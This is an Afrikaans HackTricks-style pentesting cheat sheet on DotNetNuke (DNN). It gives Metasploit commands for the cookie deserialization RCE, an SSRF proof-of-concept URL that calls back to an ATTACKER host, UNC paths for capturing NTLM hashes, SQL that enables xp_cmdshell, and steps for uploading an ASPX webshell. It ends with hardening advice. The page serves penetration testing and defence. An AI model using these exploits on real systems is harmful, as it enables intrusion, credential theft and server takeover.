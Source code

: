 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

As jy as **administrateur** in DNN inlog, is dit maklik om **RCE** te verkry, maar 'n aantal *onaangetekende* en *post-auth* tegnieke is in die afgelope paar jaar gepubliseer. Die volgende spiekbrief versamel die nuttigste primitiewe vir beide offensiewe en defensiewe werk.

---
## Weergawe & Omgewing Enumerasie

* Kontroleer die *X-DNN* HTTP antwoordkop – dit openbaar gewoonlik die presiese platformweergawe.
* Die installasiewizard lek die weergawe in `/Install/Install.aspx?mode=install` (toeganklik op baie ou installasies).
* `/API/PersonaBar/GetStatus` (9.x) gee 'n JSON blob wat `"dnnVersion"` bevat vir lae-privilege gebruikers.
* Tipiese koekies wat jy op 'n lewende instansie sal sien:
* `.DOTNETNUKE` – ASP.NET vorms verifikasieticket.
* `DNNPersonalization` – bevat XML/serialiseerde gebruikersprofieldata (ou weergawe – sien RCE hieronder).

---
## Onaangetekende Exploitatie

### 1. Koekie Deserialisering RCE  (CVE-2017-9822 & opvolgings)
*Geaffekteerde weergawes ≤ 9.3.0-RC*

`DNNPersonalization` word op elke versoek gedeserialiseer wanneer die ingeboude 404 hanteraar geaktiveer is. Gemaakte XML kan dus lei tot arbitrêre gadgetkettings en kode-uitvoering.
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
Die module kies outomaties die regte pad vir gepatchte maar steeds kwesbare weergawes (CVE-2018-15811/15812/18325/18326). Exploitatie werk **sonder verifikasie** op 7.x–9.1.x en met 'n *geverifieerde* lae-regte rekening op 9.2.x+.

### 2. Server-Side Request Forgery  (CVE-2025-32372)
*Geaffekteerde weergawes < 9.13.8  –  Patch vrygestel April 2025*

'n Bypass van die ouer `DnnImageHandler` regstelling stel 'n aanvaller in staat om die bediener te dwing om **arbitraire GET versoeke** uit te reik (semi-blind SSRF). Praktiese impakte:

* Interne poortskandering / metadata diensontdekking in wolkontplooiings.
* Bereik gasheer wat andersins deur die Internet geblokkeer is.

Bewys-van-konsep (vervang `TARGET` & `ATTACKER`):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
Die versoek word in die agtergrond geaktiveer; monitor jou luisteraar vir terugroepe.

### 3. NTLM Hash Blootstelling via UNC Oorleiding  (CVE-2025-52488)
*Geaffekteerde weergawes 6.0.0 – 9.x (< 10.0.1)*

Spesiaal saamgestelde inhoud kan DNN laat probeer om 'n hulpbron te verkry met 'n **UNC pad** soos `\\attacker\share\img.png`.  Windows sal graag NTLM onderhandeling uitvoer, wat die bediener-rekening hashes aan die aanvaller blootstel.  Opgradeer na **10.0.1** of deaktiveer uitgaande SMB by die firewall.

### 4. IP Filter Omseiling  (CVE-2025-52487)
As administrateurs op *Host/IP Filters* staatmaak vir admin portaal beskerming, wees bewus dat weergawes voor **10.0.1** omseil kan word deur `X-Forwarded-For` in 'n omgekeerde proxy-scenario te manipuleer.

---
## Post-Authentisering na RCE

### Via SQL konsole
Onder **`Settings → SQL`** 'n ingeboude vrae venster laat uitvoering teen die webwerf databasis toe.  Op Microsoft SQL Server kan jy **`xp_cmdshell`** aktiveer en opdragte genereer:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### Via ASPX webshell oplaai
1. Gaan na **`Settings → Security → More → More Security Settings`**.
2. Voeg `aspx` (of `asp`) by **Allowable File Extensions** en **Save**.
3. Blaai na **`/admin/file-management`** en laai `shell.aspx` op.
4. Trigger dit by **`/Portals/0/shell.aspx`**.

---
## Privilege Escalation op Windows
Sodra kode-uitvoering bereik is as **IIS AppPool\<Site>**, geld algemene Windows privilege-escalation tegnieke. As die boks kwesbaar is, kan jy benut:

* **PrintSpoofer** / **SpoolFool** om *SeImpersonatePrivilege* te misbruik.
* **Juicy/Sharp Potatoes** om *Service Accounts* te ontsnap.

---
## Versterking Aanbevelings (Blou Span)

* **Opgradeer** na ten minste **9.13.9** (regstel SSRF omseiling) of verkieslik **10.0.1** (IP-filter & NTLM probleme).
* Verwyder oorblywende **`InstallWizard.aspx*`** lêers na installasie.
* Deaktiveer uitgaande SMB (poorte 445/139) egress.
* Handhaaf sterk *Host Filters* op die rand proxy eerder as binne DNN.
* Blokkeer toegang tot `/API/RemoteContentProxy` as dit nie gebruik word.

## Verwysings

* Metasploit `dnn_cookie_deserialization_rce` module dokumentasie – praktiese ongemagtigde RCE besonderhede (GitHub).
* GitHub Security Advisory GHSA-3f7v-qx94-666m – 2025 SSRF omseiling & patch inligting.
{{#include ../../banners/hacktricks-training.md}}
